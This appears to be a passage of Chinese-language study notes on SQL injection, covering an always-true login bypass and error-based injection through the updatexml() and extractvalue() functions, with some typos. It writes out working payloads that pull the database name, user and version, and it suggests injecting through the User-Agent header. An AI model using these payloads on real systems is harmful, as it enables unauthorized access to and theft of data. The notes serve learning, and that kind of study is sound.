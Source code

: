 有的时候你就之内跑脚本了，但是有的时候还是可以搏一搏，摩托变骆驼。


```sql
username-a
password-a')or'1'='1#
```
一般这种登录界面的查询语句为：

```sql
select username,password from user Where username=('a') and password = ('a') or '1' ='1#')
```
这时候因为and的运算优先级大于or 所以会先判断 username和passowrd正确和错误，显然这是`false`即为0，1=1为恒真即为1，这时候数据库就会变成，判断
`0 or 1`,等价于：

```sql
SELECT username, password FROM users WHERE 0 or 1;
```

大概的思路就是这样，整合的查询语句请跳转**指北代码篇**。



## **基于错误的更新查询 uploadxml 的 POST注入**

这里的更新查询即为使用updatexml函数进行注入，但是username必须为真，也就是你最少要使出`username`才能继续注入。

updatexml()函数

大概格式为
```
UPDATEXML (XML_document, XPath_string, new_value);
函数名      文档            路径字符串    String格式
```


左右括号的十六进制分别是0x28，0x29，+号的16进制为0x2b

大概语句为：


查询数据库：
a' or updatexml (1,concat(0x282b5d,database()),1)#
a' and updatexml (1,concat(0x2b,database()),1)#

查询用户名
a' or updatexml (1,concat(0x282b5d,(select user())),1)#

如果查询的值附带在user-agent中可以尝试在后面加入`updatexml`代码尝试注入。代码同上 但是更改的值为，users的附带浏览器名。

还有第二个函数
extractvalue函数
这个函数只需要两个参数。

查询版本：
```
1 ' or extractvalue(1,concat(0x2b,version())),")#
```

loginname

